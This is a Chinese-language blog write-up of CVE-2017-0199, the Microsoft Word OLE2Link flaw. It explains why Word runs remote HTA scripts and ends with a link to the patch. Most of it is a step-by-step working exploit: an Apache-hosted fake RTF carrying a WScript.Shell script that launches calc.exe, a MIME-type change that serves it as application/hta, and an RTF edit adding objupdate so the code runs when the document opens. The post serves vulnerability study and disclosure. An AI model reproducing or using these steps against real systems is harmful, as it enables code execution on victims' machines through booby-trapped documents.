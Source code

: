 ```yaml
---
title: CVE-2017-0199 OFFICE OLE2LINK
date: 2017-4-18 8:50:30
tags: 系统安全
toc: true
description: fireeye最近公布了一个OFFICE 0day，在无需用户交互的情况下，打开word文档就可以通过hta脚本执行任意代码。经过研究发现，此漏洞的成因主要是word在处理内嵌OLE2LINK对象时，通过网络更新对象时没有正确处理的Content-Type所导致的一个逻辑漏洞。
---
```

> CVE-2017-0199：当用户打开包含嵌入式漏洞的文档时，winword.exe会向远程服务器发出HTTP请求，以检索恶意HTA文件，服务器返回的文件时一个带有嵌入式恶意脚本的假RTF文件，winword.exe通过COM对象查找application/hta的文件处理程序，这会导致Microsoft HTA应用程序（mshta.exe）加载并执行恶意脚本


## 利用
首先准备一台apache服务器，web根目录下保存一个1.rtf文件，内容如下：
```vb
test
<script>
var objShell = new ActiveXObject("wscript.shell");
objShell.Run("%SystemRoot%\\system32\\calc.exe");
</script>
```
确保apache配置文件conf/mime.types里面有rtf的content type项:  
    application/rtf       rtf

新建word文档 插入一个对象 由文件创建，输入url 例如 http://192.168.1.117/1.rtf  
选择“链接到文件”  
这时候会生成一个有test文字内嵌对象的文档，这是双击该对象只能以rtf文件方式打开对象，并不能执行hta脚本。因为生成对象的时候选中“链接到文件”，所以当打开对象的时候会去服务器上请求http://192.168.1.117/1.rtf来更新对象内容。

此时在apache配置文件conf/mime.types中把  
        application/rtf                 rtf  
        改为  
        application/hta                 rtf  

重启apache 清楚ie缓存  
再双击对象，此时虽然访问的还是1.rtf文件，但是服务器的Content-type会返回application/hta，而word就以hta脚本的方式打开文件  
这样的poc还是需要用户双击对象进行交互的，那么怎么样才能自动运行对象呢？这里就需要把文件保存成rtf格式：  
用文本编辑器打开刚保存的rtf文件，找到object标签所在的地方：  
        {\object\objautlink\rsltpict  
        改为  
        {\object\objautlink\objupdate\rsltpict  
关键点在于objupdate，这个标签的作用是可以自动更新对象，因此无需用户交互。此时已经可以达到通过hta脚本执行任意代码的目的

下载微软紧急更新补丁：
[https://support.microsoft.com/en-us/help/4014793/title](https://support.microsoft.com/en-us/help/4014793/title)
